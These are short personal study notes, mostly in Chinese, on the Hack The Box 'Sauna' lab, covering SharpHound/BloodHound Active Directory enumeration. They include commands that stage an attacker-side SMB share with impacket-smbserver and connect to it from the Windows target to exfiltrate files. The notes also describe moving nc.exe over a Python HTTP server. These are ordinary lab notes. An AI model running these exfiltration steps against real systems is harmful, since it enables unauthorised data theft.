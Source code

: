 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

## Data Exfiltration，数据渗漏

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

## 数据处理

在将SharpHound.exe产生的zip文件传到kali后，用Upload Data而不是Import Graph来导入文件。
